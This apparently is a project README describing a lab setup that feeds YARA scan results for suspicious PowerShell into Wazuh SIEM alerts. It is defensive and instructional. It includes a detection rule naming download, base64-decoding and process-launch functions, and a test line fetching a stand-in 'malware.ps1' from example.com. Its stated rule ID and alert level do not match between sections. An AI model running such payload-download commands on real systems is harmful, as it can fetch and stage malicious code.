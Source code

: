 Integrating YARA Threat Hunting with Wazuh SIEM for Malware Detection

Author: Babatunde Qodri – SOC Analyst

This project demonstrates how YARA, a powerful open-source malware pattern-matching tool, can be seamlessly integrated with Wazuh SIEM to detect and respond to malicious activities in real time.

The setup simulates a real-world Security Operations Center (SOC) within a safe lab environment, combining endpoint threat hunting, log analysis, and alert correlation across multiple virtual machines.

📘 Overview – What I Built and Why

Threat actors continuously evolve their tactics to evade detection. This project was designed to showcase how open-source tools like YARA and Wazuh can work together to improve malware detection and visibility in a SOC environment.

Using custom YARA rules, I simulated the detection of malicious PowerShell activity and configured Wazuh SIEM to receive, analyze, and visualize alerts in real time.

Through this hands-on implementation, I strengthened my skills in:

Threat Hunting · SIEM Integration · Endpoint Monitoring · Incident Detection & Response

⚙️ Architecture Diagram

Figure 1: Workflow showing Windows Agent (YARA + Wazuh Agent) sending detection logs to Wazuh Manager (Ubuntu), which displays alerts on the SIEM dashboard.

💻 Setup & Configuration
Environment Overview
Component	Description
Windows 10 VM	Acts as the monitored endpoint running YARA scans
Ubuntu Server	Hosts the Wazuh Manager and SIEM dashboard
PowerShell	Automates YARA scans and log generation
YARA v4.5.4	Performs rule-based malware pattern detection
Wazuh SIEM	Correlates logs and visualizes detections
EICAR File	Safe test file for malware simulation
Step 1 – YARA Installation
# Install YARA in Windows
C:\Tools\YARA\yara

# Verify installation
& "C:\Tools\YARA\yara\yara64.exe" --version

Step 2 – Create Custom YARA Rule
# Create a YARA test folder
mkdir C:\YARA_Test

# Create and edit custom rule
notepad C:\YARA_Test\custom_rule.yar


Rule logic example:

rule Suspicious_PowerShell_Script
{
    strings:
        $a = "Invoke-WebRequest"
        $b = "FromBase64String"
        $c = "Start-Process"
    condition:
        any of them
}


This rule detects PowerShell scripts containing suspicious functions often used in malware or attack scripts.

Step 3 – Create and Scan Test Script
# Create test script
notepad C:\YARA_Test\test_script.ps1

# Add this line
Invoke-WebRequest -Uri "http://example.com/malware.ps1"

# Execute scan
& "C:\Tools\YARA\yara\yara64.exe" C:\YARA_Test\custom_rule.yar C:\YARA_Test


✅ Result: YARA successfully identified suspicious patterns, validating the rule’s detection logic.

🧪 Detection Simulation – Integrating YARA with Wazuh
Step 1 – Redirect YARA Output to Wazuh Agent Logs
mkdir "C:\Program Files (x86)\ossec-agent\yara_logs"
& "C:\Tools\YARA\yara\yara64.exe" C:\YARA_Test\custom_rule.yar C:\YARA_Test > "C:\Program Files (x86)\ossec-agent\yara_logs\yara_output.log"

Step 2 – Create Custom Wazuh Rule
<group name="yara,">
    <rule id="110050" level="10">
        <decoded_as>yara</decoded_as>
        <description>YARA Detection: Suspicious PowerShell Script</description>
        <group>yara,malware-detection,</group>
        <match>Suspicious_PowerShell_Script</match>
    </rule>
</group>


Save as:
/var/ossec/etc/rules/yara_custom_rules.xml

Validate syntax:

sudo /var/ossec/bin/wazuh-logtest

📊 Results / Dashboard Analysis

✅ Detection Summary

Stage	Description
YARA	Detected suspicious PowerShell string patterns
Wazuh Agent	Forwarded YARA detection logs
Wazuh Manager	Parsed and matched custom rule ID 110051
SIEM Dashboard	Displayed “Possible malware detected by YARA” alert

Figure 2: High-severity (Level 12) alert confirming successful integration between YARA and Wazuh.

🔍 Incident Summary
Time	Rule ID	Severity	Description	Action Taken
2025-10-29 13:37	110051	12 (High)	Possible malware detected by YARA	Verified and validated rule correlation
💡 Challenges & Lessons Learned

Challenge: Initial rule misconfiguration prevented Wazuh from parsing YARA logs.
Solution: Adjusted log path and validated XML syntax with wazuh-logtest.

Lesson: Learned how to write and tune custom Wazuh rules for alert correlation.

Outcome: Gained deep insight into endpoint-to-SIEM data flow and detection logic.

🚀 Future Enhancements

Integrate AlienVault OTX for automatic threat intelligence enrichment.

Expand detection coverage using Sigma or Suricata rules.

Automate YARA scanning using PowerShell task scheduler.

🧰 Tools Used
Tool	Purpose
YARA v4.5.4	Malware pattern matching
Wazuh SIEM	Log correlation and visualization
PowerShell	Log automation and script execution
Ubuntu Server	Wazuh Manager host
Windows 10 VM	Endpoint for YARA testing
EICAR Test File	Safe malware simulation
📚 References

VirusTotal YARA Repository

Wazuh Documentation

EICAR Test File

MITRE ATT&CK Framework

🧩 Professional Takeaway

This project demonstrates full end-to-end SOC workflow — from detection logic to alert validation — proving practical capability in:

Endpoint security monitoring

SIEM correlation

Custom rule engineering

Threat simulation and analysis

“From detection to alert — this is what SOC Analysts do daily.”

✅ Folder Structure Reference
Integrating-YARA-with-Wazuh/
├── README.md
├── docs/
│   ├── architecture_diagram.png
│   ├── wazuh_dashboard_alert.png
│   └── incident_table.png
├── rules/
│   └── yara_custom_rules.xml
├── logs/
│   └── yara_output.log